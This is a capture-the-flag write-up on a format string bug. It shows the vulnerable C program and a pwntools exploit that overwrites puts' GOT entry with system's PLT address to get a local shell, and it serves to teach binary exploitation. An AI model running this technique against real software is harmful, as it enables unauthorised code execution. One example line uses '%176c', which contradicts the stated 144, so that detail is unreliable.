 ```yaml
---
title: Simple PWN - 0x11(format string bug)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN - 0x11(format string bug)
###### tags: `CTF` `PWN` `eductf`


## format string bug background
[printf %n](https://www.geeksforgeeks.org/g-fact-31/)
![](https://media.geeksforgeeks.org/wp-content/cdn-uploads/20191009172738/n-in-printf.jpg)

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char fmt[0x20];

    system("echo 'Give me fmt: '");
    read(0, fmt, 0x20);
    printf(fmt);

    system("echo 'Give me string: '");
    read(0, fmt, 0x20);
    puts(fmt);

    return 0;
}
```
```bash!
$ gcc -o fmt fmt.c -no-pie -fno-stack-protector -z norelro -zexecstack
```
* In this problem, we can consider to use `format string bug` to achieve `GOT hijacking` without buffer overflow.
* **The main idea is totally the same as [GOT hijacking lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/S1BBpSR5s)**
* Thus, we can observe which function can be overlapped by `system plt` → <font color="FF0000">**`puts function`**</font>
    * Because...
    `puts` just needs one argument like `system` function, but how about `printf`?
    Unfortunately, it appeared before 2nd read function, because 2nd `read` needs to store the argument for `system` function such as `sh\x00`.
## Exploit - GOT hijacking + format string bug
**Our goal is hijack `puts GOT` to `system plt`**
1. Find `puts GOT` address and `system plt` → <font color="FF0000">`0x403318` and `0x401090`</font>
    ```bash
    $ objdump -d fmt
    ...
    0000000000401090 <system@plt>:
      401090:       f3 0f 1e fa             endbr64
      401094:       f2 ff 25 85 22 00 00    bnd jmp *0x2285(%rip) # 403320 <system@GLIBC_2.2.5>
      40109b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
    ...
    $ gdb fmt
    ...
    pwndbg> attach <PID>
    pwndbg> got

    GOT protection: No RELRO | GOT functions: 5

    [0x403318] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
    [0x403320] system@GLIBC_2.2.5 -> 0x7f87de291d60 (system) ◂— endbr64
    [0x403328] printf@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
    [0x403330] read@GLIBC_2.2.5 -> 0x7f87de355980 (read) ◂— endbr64
    [0x403338] setvbuf@GLIBC_2.2.5 -> 0x7f87de2c2670 (setvbuf) ◂— endbr64
    ...
    ```
2. Construct format string - try and error
    ```python!
    r.sendafter("Give me fmt: ", b"%176c%8$hhn" + b"aaaaa" + p64(puts_got))
    ```
    **從結果來看比較清楚**
    ![](https://imgur.com/G4YPrXO.png)

    * Parse `b"%176c%8$hhn" + b"aaaaa" + p64(puts_got)`
Our goal is overlap `puts GOT`, so we put address of puts_got at final position, that is `[%rsp + 16]`(format string: `$8`)
We want to modify `0x401030` to `0x401090`, so we just modify only **1 bytes**(format string: `%hhn`). In addition, <font color="FF0000">`0x90` is 144</font> as decimal.(format string: `%176c`)
Combine all format sting: `%176c%8$hhn` and other space can pad trash bytes

3. Pass the command to `system` function - `sh\x00` to open shell
    ```python!
    r.sendafter("Give me string: ", "sh\x00")
    ```
4. Finally, we got shell!!!
    ![](https://imgur.com/Zh5jE4N.png)
    
* Whole exploit
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process("./fmt")
    raw_input()

    puts_got = 0x403318
    system_plt = 0x401090

    r.sendafter("Give me fmt: ", b"%144c%8$hhn" + b"aaaaa" + p64(puts_got))
    r.sendafter("Give me string: ", "sh\x00")

    r.interactive()
    ```